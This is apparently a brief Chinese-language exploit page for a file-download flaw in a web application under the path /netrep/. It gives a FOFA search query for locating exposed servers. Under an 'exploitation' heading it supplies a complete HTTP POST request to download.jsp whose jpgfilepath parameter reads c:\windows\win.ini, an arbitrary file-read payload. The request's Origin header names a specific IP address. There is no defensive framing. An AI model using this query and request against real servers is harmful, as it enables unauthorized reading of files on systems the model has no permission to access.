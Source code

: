 <languages />

FOFA
----

    body="/netrep/"

漏洞利用
--------

發送以下請求：

    POST /netrep/ebook/browse/download.jsp HTTP/1.1
    Host:
    Content-Length: 55
    Cache-Control: max-age=0
    Upgrade-Insecure-Requests: 1
    Origin: http://114.251.113.53:7002
    Content-Type: application/x-www-form-urlencoded

    jpgfilepath=c:\windows\win.ini